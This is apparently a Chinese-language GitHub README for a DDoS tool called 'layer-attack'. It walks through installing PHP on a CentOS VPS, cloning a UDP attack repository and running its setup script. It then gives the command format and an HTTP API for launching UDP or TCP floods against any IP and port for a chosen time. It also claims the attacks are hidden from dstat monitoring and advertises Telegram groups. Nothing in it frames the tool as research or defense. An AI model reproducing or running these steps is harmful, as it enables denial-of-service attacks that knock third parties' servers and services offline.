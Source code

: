 # layer-attack 一个简单的layer4攻击程序
# 版本：1.1
# 发布时间：2020/02/07
<p>安装所需：</p>
<li>一台能发包的VPS</li>
<li>Centos 7.x系统</li>
<br>
请选择磁盘丰富的位置 执行以下命令
<br>

```BASH
cd ~
yum update
yum install epel-release
yum install http://rpms.remirepo.net/enterprise/remi-release-7.rpm
yum install yum-utils
yum-config-manager --enable remi-php72
yum update
yum install php72
yum install php72-php-fpm php72-php-gd php72-php-json php72-php-mbstring php72-php-mysqlnd php72-php-xml php72-php-xmlrpc php72-php-opcache
systemctl enable php72-php-fpm.service
yum install -y git wget curl net-tools
git clone https://github.com/KLDGodY/udp-attack.git
cd udp-attack
perl setup.pl
```

<blockquote>如果显示perl没有安装，，请自行到网上找教程，，，</blockquote>
安装过程中如果问你要不要安装某些东西，按y同意
<br>
等待安装好后，，就可以开始攻击力，，
命令格式：<pre>perl /root/ssyn.pl 要攻击的IP 端口 每秒发送数据包(bytes) 持续攻击秒数</pre>
当然你也可以用api攻击，api地址是<pre>http://你的服务器地址/api.php?key=[yourvpspassword(root)]&host=[host]&port=[port]&time=[time]&method=[method]</pre>
说一下，method有3种模式，分别是udp，tcp，和stop，，攻击不会在dstat中呈现
<br>
我的tg：<a href="//t.me/KLDGodY">@KLDGodY</a><br>
tg水群：<a href="//t.me/kldgodygroup">@KLDGodYGroup</a><br>欢迎各位dl加入，，，
